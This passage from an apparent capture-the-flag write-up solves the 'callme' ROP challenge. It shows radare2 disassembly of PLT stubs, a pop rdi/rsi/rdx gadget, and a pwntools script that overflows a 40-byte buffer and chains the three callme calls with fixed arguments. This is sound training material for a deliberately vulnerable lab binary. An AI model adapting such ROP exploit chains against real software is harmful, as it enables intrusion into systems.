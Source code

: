 ```
│ bp: 0 (vars 0, args 0)
│ sp: 0 (vars 0, args 0)
│ rg: 0 (vars 0, args 0)
└       ╎   0x00400740      ff250a092000   jmp qword [reloc.callme_two] ; [0x601050:8]=0x400746 ; "F\a@"
        ╎   0x00400746      6807000000     push 7                      ; 7
        └─< 0x0040074b      e970ffffff     jmp sym..plt
[0x00400740]> s sym.imp.callme_three 
[0x004006f0]> pd 3
        ╎   ; CALL XREF from sym.usefulFunction @ 0x400905
┌ 6: sym.imp.callme_three ();
│ bp: 0 (vars 0, args 0)
│ sp: 0 (vars 0, args 0)
│ rg: 0 (vars 0, args 0)
└       ╎   0x004006f0      ff2532092000   jmp qword [reloc.callme_three] ; [0x601028:8]=0x4006f6
        ╎   0x004006f6      6802000000     push 2                      ; 2
        └─< 0x004006fb      e9c0ffffff     jmp sym..plt

```

So now we have the addresses where we want to jump in order to call the three function without using the call instruction (that will mess our stack)
we can also use into our script some pwntools sugar that could allow us not to have to search more the addresses inside plt:
```python
elf = ELF('callme')

callme_one   = elf.plt['callme_one']   
callme_two   = elf.plt['callme_two']   
callme_three = elf.plt['callme_three'] 
```
and now we need the gadget that insert the parameter into the register using inside radare2 the command /R pop :

```
  0x0040093c                 5f  pop rdi
  0x0040093d                 5e  pop rsi
  0x0040093e                 5a  pop rdx
  0x0040093f                 c3  ret
```
one of those gadget is this.

knowing that the offset in this case is of 40 bytes we have all that we need in order to solve this challenge.

```python
from pwn import *
context.binary = elf = ELF('./callme')

offset = 40

pop_rdi_rsi_rdx = 0x40093c
callme_one   = elf.plt['callme_one']   
callme_two   = elf.plt['callme_two']   
callme_three = elf.plt['callme_three'] 

arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d

# order argument edi esi edx 

insert_prm = p64(pop_rdi_rsi_rdx)+p64(arg1)+p64(arg2)+p64(arg3)

payload = b'A'*offset + insert_prm + p64(callme_one) + insert_prm + p64(callme_two) + insert_prm + p64(callme_three)
```